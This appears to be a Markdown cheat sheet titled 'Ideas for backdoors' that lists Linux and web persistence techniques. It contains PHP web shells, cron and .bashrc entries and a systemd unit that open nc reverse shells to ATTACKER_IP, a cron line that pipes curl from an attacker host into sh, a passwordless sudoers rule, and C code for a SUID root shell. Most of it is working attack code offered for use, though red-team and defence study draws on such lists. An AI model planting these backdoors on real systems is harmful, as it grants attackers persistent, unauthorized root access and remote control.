 # Ideas for backdoors
Always room for more

### Add our public key to some user’s authorized_keys file
[Arch linux SSH wiki]{https://wiki.archlinux.org/title/SSH_keys}
`ssh-keygen -t rsa -b 2048 -C "$(whoami)@$(uname -n)-$(date -I)"`

### Add PHP backdoor
```
<?php
    if (isset($_REQUEST['cmd'])) {
        echo "<pre>" . shell_exec($_REQUEST['cmd']) . "</pre>";
    }
?>
```
or use HTTP request header 
```
<?php
    if (isset($_SERVER['HTTP_CMD'])) {
        echo "<pre>" . shell_exec($_SERVER['HTTP_CMD']) . "</pre>";
    }
?>
```

### CRON Jobs
periodically send a reverse shell back to your attacker machine
```
CT=$(crontab -l)
CT=$CT$'\n10 * * * * nc -e /bin/bash <ATTACKER_IP> <PORT>'
printf "$CT" | crontab -
```

```
CT=$(crontab -l)
CT=$CT$'\n10 * * * * curl http://<ATTACKER_IP>/run | sh'
printf "$CT" | crontab -
```

### Apache mod_rootme
Apache module [LINK]{https://github.com/sajith/mod-rootme} can be installed for a privileged backdoor

Needs to be compiled.  Add the following commands to config 
(usually /etc/apache2/apache2.conf or /etc/httpd/conf/httpd.conf):

```
LoadModule rootme_module /usr/lib/apache2/modules/mod_rootme.so
```

### User's .bashrc
Add reverse shell when intractive session is started.
[LINK]{https://www.lifewire.com/bashrc-file-4101947}
```
echo 'nc -e /bin/bash <ATTACKER_IP> <PORT> 2>/dev/null &' >> ~/.bashrc
```

### Add a system service
systemctl or rc.local
```
[Unit]
Description=Very important backdoor.
[Service]
Type=simple
ExecStart=/usr/bin/nc -e /bin/bash <ATTACKER_IP> <PORT> 2>/dev/null
[Install]
WantedBy=default.target
```

### audoers
<USER>        ALL=(ALL)        NOPASSWD: ALL

### SUID
normally: chmod u+s {file_name}  
Play with symlinks
The example requires a compiler
```
echo 'int main() { setresuid(0,0,0); system("/bin/sh"); }' > privshell.c
gcc -o privshell privshell.c
rm privshell.c
chown root:root privshell
chmod u+s privshell
```
Move privshell to a safe place and run it later as an unprivileged user to get root shell.
